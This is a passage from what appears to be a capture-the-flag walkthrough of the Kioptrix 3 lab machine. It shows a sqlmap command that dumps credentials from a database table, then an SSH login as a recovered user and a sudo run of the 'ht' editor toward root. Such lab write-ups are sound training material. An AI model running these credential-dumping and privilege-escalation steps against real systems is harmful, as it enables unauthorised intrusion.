 Then, we dump the columns of the dev_accounts table and we got two users "dreg" and "loneferret" and their passwords.

```bash
sqlmap -r request.txt --risk=3 --level=5 -D gallery -T dev_accounts --dump --batch
```

![sqlmap](/assets/img/posts/kioptrix3/method_3/5.3.png)

And again as we did in method 2; We login to ssh as loneferret and run the installed software "ht" with sudo command.

```bash
ssh loneferret@192.168.56.118
id
ls
cat CompanyPolicy.README
sudo ht
export TERM=xterm
sudo ht
```

![ssh_login](/assets/img/posts/kioptrix3/method_3/6.2.png)
